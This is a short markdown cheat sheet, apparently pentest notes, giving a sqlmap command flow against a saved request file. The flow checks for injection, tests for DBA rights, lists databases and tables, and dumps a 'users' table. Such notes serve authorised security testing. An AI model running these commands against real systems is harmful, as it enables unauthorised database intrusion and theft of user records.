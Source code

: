 
# SQLMAP

Run SQLMap (with request file)
```
sqlmap -r <request-file> --level 5 --risk 3
```

Next steps:

- Add `--dbs` to check all databases.
- Remove `--dbs` and add `-D <database_name> --tables`.
- Remove `--tables` and add `-T <table_name> --dump`

Flow: 
- sqlmap -r <request-file> --level 5 --risk 3 `continue if succeed`
- sqlmap -r <request-file> --level 5 --risk 3 --is-dba `check for True/False`
- sqlmap -r <request-file> --level 5 --risk 3 --banner `show os/database version information`
- sqlmap -r <request-file> --level 5 --risk 3 --dbs `show databases`
- sqlmap -r <request-file> --level 5 --risk 3 -D admin_database --tables `show all tables in "admin_database" database`
- sqlmap -r <request-file> --level 5 --risk 3 -D admin_database -T users --dump `dump all schema/data from users table`

